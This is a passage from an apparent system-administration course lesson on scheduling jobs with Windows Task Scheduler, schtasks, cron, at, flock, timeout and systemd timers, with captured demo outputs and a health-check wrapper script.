- **Trigger.** `-Daily -At 02:30` for nightly jobs; `-AtStartup` and `-AtLogOn [-User]` for boot and logon; `-Weekly -DaysOfWeek Monday,Thursday -At 06:00`. For "every 15 minutes" give a daily (or once) trigger a **repetition**; the pattern above (daily trigger with a 15-minute repetition lasting one day) works on all supported Windows versions. Avoid `-RepetitionDuration ([TimeSpan]::MaxValue)` — newer Windows versions reject it as out of range. `-RandomDelay` spreads fleets.
- **Principal.** `SYSTEM` (`-LogonType ServiceAccount`) is all-powerful locally and has no network identity beyond the computer account. A **group Managed Service Account** (`-UserId 'CORP\gmsa-health$' -LogonType Password`) is the professional choice for jobs that need network access: Windows manages its password. "Run whether user is logged on or not" for a normal account means **storing its password** (`Register-ScheduledTask -User … -Password …`, `-LogonType Password`); `S4U` avoids storing it but gives the job **no network credentials**. `-LogonType Interactive` runs only while that user is logged on. `-RunLevel Highest` gives an administrator account its elevated token (like "Run with highest privileges").
- **Settings.** `-StartWhenAvailable` runs a missed start as soon as possible (the `Persistent=true` of Windows). `-ExecutionTimeLimit` stops runaway jobs (default **72 hours**). `-MultipleInstances IgnoreNew` (the default) refuses to start a second copy — built-in locking. `-RestartCount`/`-RestartInterval` retry when the task **fails to start**. Laptops: by default a task does **not** start on battery and stops when the machine switches to battery — add `-AllowStartIfOnBatteries -DontStopIfGoingOnBatteries`.
- `Register-ScheduledTask` returns the task object; `-Force` replaces an existing task with the same name. Put your tasks in your own folder (`-TaskPath '\Lab25\'`) — that makes them easy to find, export and audit.

### `Get-ScheduledTaskInfo` and `LastTaskResult`

`Get-ScheduledTaskInfo -TaskPath '\Lab25\' -TaskName 'Lab25-Health'` returns `LastRunTime`, `LastTaskResult`, `NextRunTime` and `NumberOfMissedRuns`. `LastTaskResult` is either your **exit code** or a Task Scheduler code:

| Decimal | Hex | Meaning |
|---|---|---|
| 0 | 0x0 | The action completed with exit code 0 |
| 1, 2, 3 … | 0x1 … | Your script's exit code (3 = Day 25 "threshold breached"); `1` is also the generic code from PowerShell for an uncaught error with `-Command` |
| 267009 | 0x41301 | The task is **currently running** |
| 267011 | 0x41303 | The task has **not yet run** |
| 267014 | 0x41306 | The task was terminated by the user (or `Stop-ScheduledTask`) |
| 2147942402 | 0x80070002 | File not found — wrong path in the action |
| 2147750687 | 0x8004131F | An instance of this task is already running |

Convert with `'0x{0:X}' -f $info.LastTaskResult`.

### `schtasks.exe`

The classic tool still matters for batch files, older systems and quick remote checks:

```text
schtasks /create /tn "\Lab25\Health-Legacy" /tr "powershell.exe -NoProfile -File C:\Lab25\bin\Lab25-Run-Health.ps1" /sc minute /mo 15 /ru SYSTEM /rl HIGHEST /f
schtasks /query /tn "\Lab25\Lab25-Health" /v /fo list
schtasks /query /fo csv /v > tasks.csv
schtasks /run /tn "\Lab25\Lab25-Health"
schtasks /end /tn "\Lab25\Lab25-Health"
schtasks /delete /tn "\Lab25\Health-Legacy" /f
```

`/tr` is limited to 261 characters; `/s COMPUTER` works against remote machines. `schtasks /query /v` shows "Last Result" in decimal.

### The Task Scheduler operational log

`Microsoft-Windows-TaskScheduler/Operational` records the life of every task — **if it is enabled**. On many Windows installations it is disabled ("History (disabled)" in `taskschd.msc`). Check and, as an administrator, enable it; this switches on a **logging channel**, it does not weaken any security control:

```powershell
Get-WinEvent -ListLog 'Microsoft-Windows-TaskScheduler/Operational' | Select-Object LogName, IsEnabled, RecordCount
wevtutil gl Microsoft-Windows-TaskScheduler/Operational          # enabled: true/false
wevtutil sl Microsoft-Windows-TaskScheduler/Operational /e:true  # enable (admin)
```

| Event ID | Meaning |
|---|---|
| 100 | Task started |
| 101 | Task start failed |
| 102 | Task completed |
| 103 | Action start failed |
| 106 | Task registered (created) |
| 107 / 110 | Task triggered on schedule / by a user |
| 111 | Task terminated |
| 129 | Task process created (shows the process ID) |
| 140 / 141 / 142 | Task registration updated / deleted / task disabled |
| 200 / 201 | Action started / action completed — **201 includes the return code** |
| 322 | Launch request ignored, an instance is already running (`IgnoreNew`) |

For security monitoring, the **Security** log also records task changes — 4698 (created), 4699 (deleted), 4700/4701 (enabled/disabled), 4702 (updated) — when the audit policy "Audit Other Object Access Events" is enabled.

### `Register-ScheduledJob` (Windows PowerShell 5.1, legacy)

The `PSScheduledJob` module (`Register-ScheduledJob`, `New-JobTrigger`, `Get-ScheduledJob`) creates tasks under `\Microsoft\Windows\PowerShell\ScheduledJobs\` that run a script block and keep the **results** as job objects (`Import-Module PSScheduledJob; Get-Job; Receive-Job`). It exists only in **Windows PowerShell 5.1**; PowerShell 7 does not include it. For new work use `Register-ScheduledTask` with a script file — it is supported in both versions and visible to every admin tool.

### `Start-Transcript`

`Start-Transcript -Path C:\Lab25\log\transcript-$(Get-Date -Format yyyyMMdd).log -Append` at the top of a scheduled script records everything it writes to the host and output streams; `Stop-Transcript` at the end (in `finally`). Good for debugging a task that "does nothing"; for routine runs, one structured log line per run is easier to search.

## Syntax and Parameters

### Bash

```text
crontab [-u USER] { -e | -l | -r [-i] | FILE | - }
MIN HOUR DOM MON DOW  COMMAND               (user crontab)
MIN HOUR DOM MON DOW  USER  COMMAND         (/etc/crontab, /etc/cron.d/*)
@reboot|@hourly|@daily|@midnight|@weekly|@monthly|@yearly|@annually  [USER]  COMMAND
NAME=value                                  (environment line: SHELL, PATH, MAILTO, MAILFROM)
run-parts [--test] [--report] [--list] DIR
at [-f FILE] [-q QUEUE] TIME    atq    atrm JOB...    at -c JOB    batch
flock [-n | -w SECONDS] [-E CODE] [-s | -x] LOCKFILE COMMAND [ARGS...]     flock [-n] FD
timeout [-k KILL_AFTER] [-s SIGNAL] [--preserve-status] DURATION COMMAND [ARGS...]
logger [-t TAG] [-p FACILITY.LEVEL] [-i] [--] MESSAGE
systemd-analyze calendar [--iterations=N] [--base-time=TIME] EXPRESSION...
systemd-analyze verify UNITFILE...
systemctl [--user] list-timers [--all]
systemctl [--user] enable --now NAME.timer      systemctl [--user] start NAME.service
systemd-run [--user] [--unit=NAME] {--on-calendar=SPEC | --on-active=TIME | --on-boot=TIME} COMMAND
logrotate [-d] [-v] [-f] [-s STATEFILE] CONFIG...
```

| Item | Meaning |
|---|---|
| `*/15 * * * *` | Minutes 0, 15, 30, 45 of every hour |
| `30 2 * * *` | 02:30 every day (system time zone) |
| `0 9 * * 1-5` | 09:00 Monday–Friday |
| `0 4 1 * *` | 04:00 on the 1st of each month |
| `\%` | A literal `%` in the command field |
| `MAILTO=""` | No mail at all |
| `OnCalendar=*:0/15` | Every 15 minutes (systemd) |
| `OnCalendar=*-*-* 02:30:00 UTC` | 02:30 UTC daily, whatever the system time zone |
| `OnCalendar=Mon..Fri 08:00` | Weekdays at 08:00 |
| `exit 124` | What `timeout` returns when the limit is reached (137 = killed by SIGKILL) |

### PowerShell

```text
New-ScheduledTaskAction -Execute <string> [-Argument <string>] [-WorkingDirectory <string>]
New-ScheduledTaskTrigger -Daily -At <DateTime> [-DaysInterval <int>] [-RandomDelay <TimeSpan>]
New-ScheduledTaskTrigger -Weekly -DaysOfWeek <DayOfWeek[]> -At <DateTime> [-WeeksInterval <int>]
New-ScheduledTaskTrigger -Once -At <DateTime> [-RepetitionInterval <TimeSpan>] [-RepetitionDuration <TimeSpan>]
New-ScheduledTaskTrigger -AtStartup | -AtLogOn [-User <string>]
New-ScheduledTaskPrincipal -UserId <string> [-LogonType Interactive|Password|S4U|ServiceAccount|InteractiveOrPassword] [-RunLevel Limited|Highest]
New-ScheduledTaskPrincipal -GroupId <string> [-RunLevel ...]
New-ScheduledTaskSettingsSet [-StartWhenAvailable] [-ExecutionTimeLimit <TimeSpan>] [-MultipleInstances Parallel|Queue|IgnoreNew|StopExisting]
                             [-RestartCount <int>] [-RestartInterval <TimeSpan>] [-AllowStartIfOnBatteries] [-DontStopIfGoingOnBatteries]
                             [-RunOnlyIfNetworkAvailable] [-Hidden] [-Disable]
Register-ScheduledTask [-TaskName] <string> [[-TaskPath] <string>] -Action <CimInstance[]> [-Trigger <CimInstance[]>]
                       [-Principal <CimInstance> | -User <string> [-Password <string>]] [-Settings <CimInstance>] [-Description <string>] [-Force]
Get-ScheduledTask [[-TaskName] <string[]>] [[-TaskPath] <string[]>]
Get-ScheduledTaskInfo [-TaskName] <string> [[-TaskPath] <string>]
Start-ScheduledTask | Stop-ScheduledTask | Enable-ScheduledTask | Disable-ScheduledTask  [-TaskName] <string> [[-TaskPath] <string>]
Set-ScheduledTask [-TaskName] <string> [[-TaskPath] <string>] [-Action ...] [-Trigger ...] [-Settings ...] [-Principal ...]
Unregister-ScheduledTask [-TaskName] <string[]> [[-TaskPath] <string[]>] [-Confirm:$false]
Register-ScheduledJob -Name <string> -FilePath <string> | -ScriptBlock <scriptblock> -Trigger <ScheduledJobTrigger[]>   # 5.1 only
```

| Parameter | Meaning |
|---|---|
| `-TaskPath '\Lab25\'` | Task folder (leading and trailing backslash) |
| `-LogonType ServiceAccount` | For SYSTEM, LOCAL SERVICE, NETWORK SERVICE |
| `-LogonType Password` | Stored credentials ("run whether user is logged on or not"); also used for gMSAs (no password stored) |
| `-LogonType S4U` | Run without a logon and without storing a password; no network credentials |
| `-RunLevel Highest` | Elevated token for administrators |
| `-MultipleInstances IgnoreNew` | Do not start a new instance while one runs (default) |
| `-ExecutionTimeLimit` | Stop the task after this time (default 3 days; `(New-TimeSpan)` = no limit) |
| `-StartWhenAvailable` | Run as soon as possible after a missed start |

## Practical Demonstrations

The **Bash** outputs were captured on 2026-11-19 on Ubuntu 24.04.5 (cron 3.0pl1-184ubuntu2, at 3.2.5, util-linux 2.39.3, systemd 255.4, logrotate 3.21.0) in a container where systemd is **not** PID 1. The `cron` and `atd` daemons were started by hand (`cron -L 15`, `atd`). Because the container has no rsyslog, syslog messages were captured with a small listener on `/dev/log`; they are shown as received (`<78>` is the syslog priority: facility cron × 8 + level info = 78) — on a normal Ubuntu system the same text appears in `/var/log/syslog` and `journalctl -u cron`. The host name is shown as `ubuntu-lab` and the test user as `student`. Timer status (`systemctl list-timers`) and all **PowerShell** outputs are **examples**: there is no systemd PID 1 and no PowerShell on the release host.

### Demo 1 — Install a crontab and see the cron environment

=== "Bash"

    ```bash
    crontab -l; echo "rc=$?"
    mkdir -p ~/day25
    cat > ~/day25/demo.cron <<'EOF'
    # m h dom mon dow  command
    * * * * * env | sort > $HOME/day25/cron-env.txt
    * * * * * date +%Y-%m-%d >> $HOME/day25/pct-broken.log 2>&1
    * * * * * date +\%Y-\%m-\%d >> $HOME/day25/pct-fixed.log 2>&1
    * * * * * echo "hello from cron"
    EOF
    crontab ~/day25/demo.cron && crontab -l
    sudo head -3 /var/spool/cron/crontabs/$USER
    # wait until the next minute has started, then:
    cat ~/day25/cron-env.txt; ls ~/day25; cat ~/day25/pct-fixed.log
    ```

    **Expected output (captured):**

    ```text
    no crontab for student
    rc=1
    # m h dom mon dow  command
    * * * * * env | sort > $HOME/day25/cron-env.txt
    * * * * * date +%Y-%m-%d >> $HOME/day25/pct-broken.log 2>&1
    * * * * * date +\%Y-\%m-\%d >> $HOME/day25/pct-fixed.log 2>&1
    * * * * * echo "hello from cron"
    # DO NOT EDIT THIS FILE - edit the master and reinstall.
    # (/home/student/day25/demo.cron installed on Thu Nov 19 16:46:26 2026)
    # (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
    HOME=/home/student
    LANG=C.UTF-8
    LOGNAME=student
    PATH=/usr/bin:/bin
    PWD=/home/student
    SHELL=/bin/sh
    cron-env.txt
    demo.cron
    pct-fixed.log
    2026-11-19
    ```

    `pct-broken.log` was **never created**. The cron log shows why:

    ```text
    <78>Nov 19 16:47:01 CRON[3392]: (student) CMD ([3396] date +%Y-%m-%d >> $HOME/day25/pct-fixed.log 2>&1)
    <78>Nov 19 16:47:01 CRON[3391]: (student) CMD ([3395] echo "hello from cron")
    <78>Nov 19 16:47:01 CRON[3394]: (student) CMD ([3397] env | sort > $HOME/day25/cron-env.txt)
    <78>Nov 19 16:47:01 CRON[3393]: (student) CMD ([3398] date +)
    <78>Nov 19 16:47:01 CRON[3391]: (CRON) info (No MTA installed, discarding output)
    <78>Nov 19 16:47:01 CRON[3391]: (student) END ([3395] echo "hello from cron")
    <78>Nov 19 16:47:01 CRON[3393]: (CRON) info (No MTA installed, discarding output)
    <78>Nov 19 16:47:01 CRON[3393]: (student) END ([3398] date +)
    ```

    The unescaped line was cut at the first `%`: cron ran only `date +` (which prints an empty line), fed `Y`, `m-`, `d >> …` to it as standard input, and the redirection never happened — so the output went to "mail", and with no mail server it was discarded. The `echo` job's output was discarded the same way. (The real log also contains `pam_unix(cron:session)` lines for each job.)

=== "PowerShell"

    ```powershell
    # Windows has no per-user "crontab": tasks are objects. List your own non-Microsoft tasks:
    Get-ScheduledTask | Where-Object TaskPath -notlike '\Microsoft\*' |
        Select-Object TaskPath, TaskName, State
    # What environment does a task get? Run one that dumps it (as yourself, while logged on).
    # Use an elevated PowerShell for the Day 25 demos: creating task folders such as \Day25\ may need admin rights.
    $a = New-ScheduledTaskAction -Execute 'cmd.exe' -Argument "/c set > `"$env:TEMP\task-env.txt`""
    Register-ScheduledTask -TaskName 'Day25-Env' -TaskPath '\Day25\' -Action $a | Out-Null
    Start-ScheduledTask -TaskPath '\Day25\' -TaskName 'Day25-Env'; Start-Sleep -Seconds 3
    Select-String -Path "$env:TEMP\task-env.txt" -Pattern '^(USERNAME|USERPROFILE|PATH)='
    Unregister-ScheduledTask -TaskPath '\Day25\' -TaskName 'Day25-Env' -Confirm:$false
    ```

    **Expected output (example):**

    ```text
    TaskPath TaskName                 State
    -------- --------                 -----
    \        OneDrive Reporting Task  Ready

    C:\Users\student\AppData\Local\Temp\task-env.txt:31:PATH=C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;...
    C:\Users\student\AppData\Local\Temp\task-env.txt:45:USERNAME=student
    C:\Users\student\AppData\Local\Temp\task-env.txt:46:USERPROFILE=C:\Users\student
    ```

    A task gets the account's normal environment (system + user variables), but no PowerShell profile when you pass `-NoProfile`, no mapped drives and no interactive desktop unless it runs interactively. `%` has no special meaning in a task action.

### Demo 2 — A fragile legacy line fails silently

=== "Bash"

    ```bash
    crontab -l | tail -1
    ls ~/lab25          # no reports/ and no last-run.txt after several runs
    grep CRON /var/log/syslog | grep -E 'lab25|grandchild' | tail -4     # or: journalctl -u cron
    ```

    **Expected output (captured):**

    ```text
    * * * * * cd lab25 && ./bin/system-health.sh -o reports > /dev/null 2>&1; echo "last run $(date +%F)" > last-run.txt
    bin
    <78>Nov 19 16:48:01 CRON[3643]: (student) CMD ([3645] cd lab25 && ./bin/system-health.sh -o reports > /dev/null 2>&1; echo "last run $(date +)
    <78>Nov 19 16:48:01 CRON[3643]: (CRON) error (grandchild #3645 failed with exit status 2)
    <78>Nov 19 16:48:01 CRON[3643]: (CRON) info (No MTA installed, discarding output)
    <78>Nov 19 16:48:01 CRON[3643]: (student) END ([3645] cd lab25 && ./bin/system-health.sh -o reports > /dev/null 2>&1; echo "last run $(date +)
    ```

    The `%` cut the command in the middle of a quoted string, `/bin/sh` reported a syntax error (exit status 2) **before running anything**, and the error message was mailed into nowhere. The health check never ran. This is exactly the line you migrate in Lab 25. (Captured with `* * * * *` instead of `*/15` to see it fail within a minute; logging level `-L 15` adds the "failed with exit status" lines.)

=== "PowerShell"

    ```powershell
    # The Windows equivalent of "fails silently": a task whose action path is wrong
    $a = New-ScheduledTaskAction -Execute 'powershell.exe' -Argument '-NoProfile -File C:\Lab25\bin\Missing.ps1'
    Register-ScheduledTask -TaskName 'Day25-Broken' -TaskPath '\Day25\' -Action $a | Out-Null
    Start-ScheduledTask -TaskPath '\Day25\' -TaskName 'Day25-Broken'; Start-Sleep -Seconds 5
    $i = Get-ScheduledTaskInfo -TaskPath '\Day25\' -TaskName 'Day25-Broken'
    '{0} (0x{0:X})' -f $i.LastTaskResult
    Unregister-ScheduledTask -TaskPath '\Day25\' -TaskName 'Day25-Broken' -Confirm:$false
    ```

    **Expected output (example):**

    ```text
    4294770688 (0xFFFD0000)
    ```

    `powershell.exe` started, but `-File` could not find the script, so PowerShell exited with a non-zero code (shown here as an unsigned number). The task "ran" — only `LastTaskResult` (or event 201 in the operational log) reveals the failure. Always check the result after the first run.

### Demo 3 — `/etc/cron.d` rules and `run-parts`

=== "Bash"

    ```bash
    printf '* * * * * student echo dotless >> /home/student/day25/crond.log\n' | sudo tee /etc/cron.d/lab25-demo >/dev/null
    printf '* * * * * student echo withdot >> /home/student/day25/crond.log\n' | sudo tee /etc/cron.d/lab25-demo.sh >/dev/null
    printf '* * * * * student echo nonewline >> /home/student/day25/crond.log' | sudo tee /etc/cron.d/lab25-nonl >/dev/null
    # one minute later:
    cat ~/day25/crond.log; grep 'lab25-nonl' /var/log/syslog
    sudo rm /etc/cron.d/lab25-demo /etc/cron.d/lab25-demo.sh /etc/cron.d/lab25-nonl
    mkdir -p ~/day25/parts && cd ~/day25/parts
    for f in lab25-report lab25_backup lab25-check.sh lab25.disabled; do printf '#!/bin/sh\necho %s\n' $f > $f; chmod 755 $f; done
    printf '#!/bin/sh\n' > lab25-notexec
    ls; echo "--- run-parts --test:"; run-parts --test .
    ```

    **Expected output (captured):**

    ```text
    dotless
    <78>Nov 19 16:48:01 cron[1683]: (*system*lab25-nonl) ERROR (Missing newline before EOF, this crontab file will be ignored)
    lab25-check.sh
    lab25-notexec
    lab25-report
    lab25.disabled
    lab25_backup
    --- run-parts --test:
    ./lab25-report
    ./lab25_backup
    ```

    Only the dot-less, executable files would run. `lab25-demo.sh` in `/etc/cron.d` was ignored without any log message — a classic "my job never runs" ticket.

=== "PowerShell"

    ```powershell
    # Task Scheduler has no naming rules, but it has folders. Show the task tree by folder:
    Get-ScheduledTask | Group-Object TaskPath | Sort-Object Name |
        Select-Object -First 5 Count, Name
    ```

    **Expected output (example):**

    ```text
    Count Name
    ----- ----
        3 \
        2 \Lab25\
        1 \Microsoft\Office\
        4 \Microsoft\Windows\.NET Framework\
        2 \Microsoft\Windows\Active Directory Rights Management Services Client\
    ```

### Demo 4 — Back up, remove and restore; who may use cron

=== "Bash"

    ```bash
    crontab -l > ~/crontab.bak
    crontab -r; crontab -l; echo "rc=$?"          # gone, no question asked
    crontab ~/crontab.bak; crontab -l              # restored
    echo y | crontab -i -r                         # -i asks first
    echo student | sudo tee /etc/cron.deny >/dev/null
    crontab -l; echo "rc=$?"
    sudo rm /etc/cron.deny                         # Ubuntu ships no cron.allow/cron.deny
    ```

    **Expected output (captured):**

    ```text
    no crontab for student
    rc=1
    0 9 * * 1 /usr/bin/true
    crontab: really delete student's crontab? (y/n)
    You (student) are not allowed to use this program (crontab)
    See crontab(1) for more information
    rc=1
    ```

=== "PowerShell"

    ```powershell
    # Back up (export) a task as XML, delete it, re-create it from the XML
    Export-ScheduledTask -TaskPath '\Lab25\' -TaskName 'Lab25-Health' | Set-Content C:\Lab25\backup\Lab25-Health.xml
    Unregister-ScheduledTask -TaskPath '\Lab25\' -TaskName 'Lab25-Health' -Confirm:$false
    Register-ScheduledTask -TaskPath '\Lab25\' -TaskName 'Lab25-Health' -Xml (Get-Content C:\Lab25\backup\Lab25-Health.xml -Raw)
    ```

    **Expected output (example):**

    ```text
    TaskPath                                       TaskName                          State
    --------                                       --------                          -----
    \Lab25\                                        Lab25-Health                      Ready
    ```

    Re-registering a task that runs as a normal account with stored credentials needs `-User`/`-Password` again — passwords are not exported. Who may create tasks is controlled by Windows rights (administrators for SYSTEM tasks), not by an allow file.

### Demo 5 — `flock` and `timeout`

=== "Bash"

    ```bash
    flock -n /tmp/day25.lock sleep 5 &  sleep 1
    flock -n /tmp/day25.lock echo "second copy ran"; echo "flock -n status: $?"
    flock -n -E 75 /tmp/day25.lock true;            echo "flock -n -E 75 status: $?"
    flock -w 10 /tmp/day25.lock echo "waited for the lock, then ran"; echo "flock -w status: $?"
    wait; rm -f /tmp/day25.lock
    timeout 2 sleep 10;          echo "timeout status: $?"
    timeout -s KILL 1 sleep 5;   echo "timeout -s KILL status: $?"
    timeout 5 true;              echo "finished in time: $?"
    ```

    **Expected output (captured):**

    ```text
    flock -n status: 1
    flock -n -E 75 status: 75
    waited for the lock, then ran
    flock -w status: 0
    timeout status: 124
    -bash: line 7:  5259 Killed                  timeout -s KILL 1 sleep 5
    timeout -s KILL status: 137
    finished in time: 0
    ```

    The second copy never ran. `-E 75` separates "busy" from a real failure of the command. `124` is the standard "timed out" code; with SIGKILL the status is 128 + 9 = 137.

=== "PowerShell"

    ```powershell
    # Locking inside a script: a named mutex (works in 5.1 and 7)
    $m = New-Object System.Threading.Mutex($false, 'Global\Day25Demo')
    if ($m.WaitOne(0)) { 'got the lock' } else { 'busy - skipping' }
    # Time limit: run work as a job and stop it after N seconds
    $job = Start-Job { Start-Sleep -Seconds 10 }
    if (-not (Wait-Job $job -Timeout 2)) { Stop-Job $job; 'timed out after 2 s' }
    Remove-Job $job -Force; $m.ReleaseMutex(); $m.Dispose()
    ```

    **Expected output (example):**

    ```text
    got the lock
    timed out after 2 s
    ```

    For scheduled tasks you usually get both from the scheduler itself: `-MultipleInstances IgnoreNew` (no overlap) and `-ExecutionTimeLimit` (time limit).

### Demo 6 — A robust wrapper for the health check

The Day 25 script `system-health.sh` already does the checks and returns 0/1/2/3. The wrapper adds what a scheduler needs: absolute paths, its own `PATH`, a lock, a time limit, one UTC log line per run, a syslog message and exit-code mapping. It is the file you build in [Lab 25](../../labs/lab-25.md), Task 2 (full listing in the lab solution). The core:

```bash
exec 9> "$LOCK"
if ! flock -n 9; then log SKIP 'exit=0 msg="previous run still active"'; exit 0; fi
touch "$LAB/run/last-start"
out=$(timeout --kill-after=10 "$LIMIT" "$HEALTH" "${args[@]}" "$@" 2>&1)
rc=$?
case $rc in
    0)       log OK    "exit=0 duration=${dur}s report=${report:-none}" ;;
    3)       log ALERT "exit=3 duration=${dur}s report=${report:-none}"
             grep -E '^Status|^[a-z-]+ +WARNING ' <<< "$out" | sed 's/^/    /' >> "$LOG" ;;
    124|137) log TIMEOUT "exit=$rc limit=${LIMIT}s"; rc=124 ;;
    *)       log ERROR "exit=$rc msg=\"$(head -n 1 <<< "$out")\"" ;;
esac
```

=== "Bash"

    ```bash
    cd /tmp     # prove that the current directory does not matter
    ~/lab25/bin/lab25-run-health.sh quick -d 95;          echo "exit=$?"
    ~/lab25/bin/lab25-run-health.sh quick -d 95 -m 1;     echo "exit=$?"
    ~/lab25/bin/lab25-run-health.sh hourly;               echo "exit=$?"
    ~/lab25/bin/lab25-run-health.sh quick -c 0;           echo "exit=$?"
    cat ~/lab25/log/health.log
    grep lab25 /var/log/syslog | tail -3                  # or: journalctl -t lab25 -n 3
    ```

    **Expected output (captured):**

    ```text
    exit=0
    exit=3
    usage: lab25-run-health.sh [quick|nightly]
    exit=2
    exit=1
    2026-11-19T16:50:09Z host=ubuntu-lab mode=quick status=OK exit=0 duration=0s report=system-health-ubuntu-lab-20261119T165009Z.txt
    2026-11-19T16:50:09Z host=ubuntu-lab mode=quick status=ALERT exit=3 duration=0s report=system-health-ubuntu-lab-20261119T165009Z.txt
        Status               : WARNING
        memory        WARNING  3.6%        >= 1%     used of 15.7 GiB (MemTotal - MemAvailable)
    2026-11-19T16:50:09Z host=ubuntu-lab mode=quick status=ERROR exit=1 msg="system-health.sh: error: -c must be an integer from 1 to 1000"
    <14>Nov 19 16:50:09 lab25: mode=quick status=OK exit=0 duration=0s report=system-health-ubuntu-lab-20261119T165009Z.txt
    <12>Nov 19 16:50:09 lab25: mode=quick status=ALERT exit=3 duration=0s report=system-health-ubuntu-lab-20261119T165009Z.txt
    <11>Nov 19 16:50:09 lab25: mode=quick status=ERROR exit=1 msg="system-health.sh: error: -c must be an integer from 1 to 1000"
    ```

    (`-d 95` because one volume of the release container is 93 % full; `-m 1` forces a memory alert for the demonstration. The last three lines are the syslog messages as received; `<14>`, `<12>` and `<11>` are `user.info`, `user.warning` and `user.err`.) Then the same wrapper under cron, with a lock held by another process during the second minute, and with a stand-in health script that hangs:

    ```bash
    crontab -l | tail -2
    grep 'mode=quick' ~/lab25/log/health.log | tail -n 2
    LAB25_HOME=/tmp/slowlab LAB25_TIMEOUT=3 ~/lab25/bin/lab25-run-health.sh; echo "exit=$?"; cat /tmp/slowlab/log/health.log
    ```

    **Expected output (captured):**

    ```text
    * * * * * /home/student/lab25/bin/lab25-run-health.sh quick -d 95 >> /home/student/lab25/log/cron-stderr.log 2>&1
    30 2 * * * /home/student/lab25/bin/lab25-run-health.sh nightly >> /home/student/lab25/log/cron-stderr.log 2>&1
    2026-11-19T16:53:01Z host=ubuntu-lab mode=quick status=OK exit=0 duration=0s report=system-health-ubuntu-lab-20261119T165301Z.txt
    2026-11-19T16:54:02Z host=ubuntu-lab mode=quick status=SKIP exit=0 msg="previous run still active"
    exit=124
    2026-11-19T16:50:29Z host=ubuntu-lab mode=quick status=TIMEOUT exit=124 limit=3s
    ```

=== "PowerShell"

    ```powershell
    # Lab25-Run-Health.ps1 (full listing in Lab 25) run by hand, the way the task runs it:
    powershell.exe -NoProfile -NonInteractive -ExecutionPolicy Bypass -File C:\Lab25\bin\Lab25-Run-Health.ps1 -Mode Quick
    "exit=$LASTEXITCODE"
    Get-Content C:\Lab25\log\health.log -Tail 2
    ```

    **Expected output (example):**

    ```text
    exit=3
    2026-11-19T16:45:02Z host=WIN11-LAB mode=quick status=OK exit=0 duration=2s report=System-Health-WIN11-LAB-20261119T164500Z.txt
    2026-11-19T17:00:03Z host=WIN11-LAB mode=quick status=ALERT exit=3 duration=2s report=System-Health-WIN11-LAB-20261119T170001Z.txt
    ```

### Demo 7 — `at`, `atq`, `atrm` and `batch`

=== "Bash"

    ```bash
    echo 'date -u +%FT%TZ > $HOME/at-ran.txt' | at now + 1 minute
    echo '/usr/bin/true' | at 02:30 tomorrow
    atq
    at -c 2 | tail -n 4          # the job script: saved environment + your command
    atrm 2; atq
    echo 'uptime > $HOME/batch-ran.txt' | batch
    # a few seconds later:
    cat ~/at-ran.txt ~/batch-ran.txt
    ```

    **Expected output (captured; the commands were typed at 16:50:50; tabs shown as spaces):**

    ```text
    warning: commands will be executed using /bin/sh
    job 1 at Thu Nov 19 16:51:00 2026
    warning: commands will be executed using /bin/sh
    job 2 at Fri Nov 20 02:30:00 2026
    1    Thu Nov 19 16:51:00 2026 a student
    2    Fri Nov 20 02:30:00 2026 a student
         exit 1
    }
    /usr/bin/true

    1    Thu Nov 19 16:51:00 2026 a student
    warning: commands will be executed using /bin/sh
    job 3 at Thu Nov 19 16:50:00 2026
    2026-11-19T16:51:00Z
     16:50:50 up 12 min,  0 user,  load average: 0.25, 0.11, 0.03
    ```

    `now + 1 minute` meant 16:51:00 — ten seconds later. The `batch` job ran at once because the load was low. Inside a pipe to `at`, `%` is an ordinary character.

=== "PowerShell"

    ```powershell
    # A one-off task: run once in 10 minutes, delete itself afterwards
    $t = New-ScheduledTaskTrigger -Once -At (Get-Date).AddMinutes(10)
    $t.EndBoundary = (Get-Date).AddMinutes(20).ToString('s')
    $s = New-ScheduledTaskSettingsSet -DeleteExpiredTaskAfter (New-TimeSpan -Seconds 0)
    $a = New-ScheduledTaskAction -Execute 'powershell.exe' -Argument '-NoProfile -Command "Get-Date | Out-File $env:TEMP\once.txt"'
    Register-ScheduledTask -TaskName 'Day25-Once' -TaskPath '\Day25\' -Action $a -Trigger $t -Settings $s
    ```

    **Expected output (example):**

    ```text
    TaskPath                                       TaskName                          State
    --------                                       --------                          -----
    \Day25\                                        Day25-Once                        Ready
    ```

    `-DeleteExpiredTaskAfter` needs an `EndBoundary` on the trigger. For quick one-offs on Linux use `at`; on Windows this pattern or `schtasks /create /sc once /st 22:00`.

### Demo 8 — systemd: test schedules and unit files

=== "Bash"

    ```bash
    systemd-analyze calendar --iterations=3 '*:0/15'
    systemd-analyze calendar 'Mon *-*-1..7 05:00' 'weekly'
    systemd-analyze calendar --base-time='2027-03-27 12:00 UTC' --iterations=3 '*-*-* 02:30:00 Europe/Berlin'
    systemd-analyze verify lab25-health.service lab25-health.timer lab25-health-nightly.service lab25-health-nightly.timer; echo "rc=$?"
    # a broken copy: typo in the timer, wrong script name in the service
    cd ~/day25/bad && systemd-analyze verify lab25-health.timer lab25-health.service; echo "rc=$?"
    ```

    **Expected output (captured; "From now" depends on when you run it):**

    ```text
      Original form: *:0/15
    Normalized form: *-*-* *:00/15:00
        Next elapse: Thu 2026-11-19 17:00:00 UTC
           From now: 5min left
       Iteration #2: Thu 2026-11-19 17:15:00 UTC
           From now: 20min left
       Iteration #3: Thu 2026-11-19 17:30:00 UTC
           From now: 35min left
      Original form: Mon *-*-1..7 05:00
    Normalized form: Mon *-*-01..07 05:00:00
        Next elapse: Mon 2026-12-07 05:00:00 UTC
           From now: 2 weeks 3 days left

      Original form: weekly
    Normalized form: Mon *-*-* 00:00:00
        Next elapse: Mon 2026-11-23 00:00:00 UTC
           From now: 3 days left
    Normalized form: *-*-* 02:30:00 Europe/Berlin
        Next elapse: Mon 2027-03-29 00:30:00 UTC
           From now: 4 months 7 days left
       Iteration #2: Tue 2027-03-30 00:30:00 UTC
           From now: 4 months 8 days left
       Iteration #3: Wed 2027-03-31 00:30:00 UTC
           From now: 4 months 9 days left
    rc=0
    /home/student/day25/bad/lab25-health.timer:5: Unknown key name 'OnCalender' in section 'Timer', ignoring.
    lab25-health.timer: Timer unit lacks value setting. Refusing.
    Unit lab25-health.timer has a bad unit file setting.
    lab25-health.service: Command /home/student/lab25/bin/lab25-run-healt.sh is not executable: No such file or directory
    rc=1
    ```

